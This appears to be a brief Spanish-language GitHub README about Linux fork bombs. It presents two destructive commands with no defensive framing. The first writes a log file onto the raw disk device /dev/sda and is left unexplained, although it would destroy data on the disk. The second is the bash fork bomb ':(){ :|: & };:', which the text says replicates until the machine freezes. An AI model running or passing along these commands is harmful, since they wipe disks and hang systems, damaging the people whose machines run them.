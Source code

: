 # linux-Fork-bomb-

cat/var/log/system >/dev/sda

comando que se consume toda la memoria y los recursos de la computadora. De manera general el comando crea copias de sí mismo, 
replicándose continuamente y ocupando los procesos del CPU y memoria, llegando a un punto donde se congelará la computadora:

:(){ :|: & };:

